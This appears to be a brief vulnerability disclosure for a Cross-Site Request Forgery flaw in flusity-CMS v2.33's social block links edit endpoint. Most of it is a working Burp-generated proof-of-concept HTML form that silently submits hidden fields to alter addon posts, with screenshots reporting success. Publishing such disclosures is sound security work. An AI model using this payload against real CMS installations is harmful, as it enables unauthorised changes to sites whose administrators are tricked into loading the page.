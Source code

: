 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /cover/addons/social_block_links/action/edit_addon_post.php

![1](https://github.com/bing-d/cms/assets/123786830/86b0ab4c-68cf-464f-b240-f1921cb5b73d)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/cover/addons/social_block_links/action/edit_addon_post.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="mode" value="edit" />
      <input type="hidden" name="addon&#95;post&#95;edit&#95;id" value="15" />
      <input type="hidden" name="id" value="16" />
      <input type="hidden" name="addon&#95;place&#95;id" value="8" />
      <input type="hidden" name="addon&#95;menu&#95;id" value="0" />
      <input type="hidden" name="profiles&#95;name&#91;&#93;" value="cs123" />
      <input type="hidden" name="social&#95;profiles&#95;link&#95;url&#91;&#93;" value="123" />
      <input type="hidden" name="fa&#95;icone&#95;code&#91;&#93;" value="123" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/bing-d/cms/assets/123786830/87edd45e-8022-45d4-b9d6-cb77728c72b2)

Successed

![3](https://github.com/bing-d/cms/assets/123786830/1167a497-d92f-4891-b483-e667fddfea50)
